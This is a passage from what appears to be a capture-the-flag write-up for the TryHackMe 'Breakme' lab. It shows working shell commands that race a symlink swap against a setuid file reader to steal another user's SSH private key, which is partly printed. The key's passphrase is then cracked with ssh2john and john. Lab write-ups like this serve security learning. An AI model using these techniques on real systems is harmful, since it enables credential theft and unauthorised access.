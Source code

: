 Now, let’s try this and yepp! we win the race and manage to read the file `/home/youcef/.ssh/id_rsa`

```bash
john@Breakme:~$ while true; do touch file; sleep 0.3; ln -sf /home/youcef/.ssh/id_rsa file; sleep 0.3; rm file; done &
<youcef/.ssh/id_rsa file; sleep 0.3; rm file; done &
[1] 8216
john@Breakme:~$ while true; do out=$(/home/youcef/readfile file | grep -Ev 'Found|guess'| grep .);if [[ -n "$out" ]]; then echo -e "$out"; break; fi; done
< -n "$out" ]]; then echo -e "$out"; break; fi; done
-----BEGIN OPENSSH PRIVATE KEY-----
b3BlbnNzaC1rZXktdjEAAAAACmFlczI1Ni1jdHIAAAAGYmNyeXB0AAAAGAAAABCGzrHvF6
Tuf+ZdUVQpV+cXAAAAEAAAAAEAAAILAAAAB3NzaC1yc2EAAAADAQABAAAB9QCwwxfZdy0Z
.....
g6a2xx9zV89mfWvuvrXDBX2VkdnvdvDHQRx+3SElSk1k3Votzw/q383ta6Jl3EC/1Uh8RT
TabCXd2Ji/Y7UvM=
-----END OPENSSH PRIVATE KEY-----
```

We can copy paste this rsa content into a file named id_rsa on our machine and can connect to youcef via ssh.

```bash
┌──(ghost㉿kali)-[~/tryhackme/breakme]
└─$ mousepad id_rsa

┌──(ghost㉿kali)-[~/tryhackme/breakme]
└─$ chmod 600 id_rsa                                                                                                                          
┌──(ghost㉿kali)-[~/tryhackme/breakme]
└─$ ssh -i id_rsa youcef@10.10.233.108
Enter passphrase for key 'id_rsa': 
```

We have to crack those passphrase hash via ssh2john.

```bash
┌──(ghost㉿kali)-[~/tryhackme/breakme]
└─$ ssh2john id_rsa > pass.hash                                                                                                                                  
┌──(ghost㉿kali)-[~/tryhackme/breakme]
└─$ john pass.hash --wordlist=/usr/share/wordlists/rockyou.txt
Using default input encoding: UTF-8
Loaded 1 password hash (SSH, SSH private key [RSA/DSA/EC/OPENSSH 32/64])
Cost 1 (KDF/cipher [0=MD5/AES 1=MD5/3DES 2=Bcrypt/AES]) is 2 for all loaded hashes
Cost 2 (iteration count) is 16 for all loaded hashes
Will run 4 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
REDACTED          (id_rsa)     
1g 0:00:00:16 DONE (2025-07-08 06:41) 0.05927g/s 39.83p/s 39.83c/s 39.83C/s sunshine1..kelly
Use the "--show" option to display all of the cracked passwords reliably
Session completed.
```
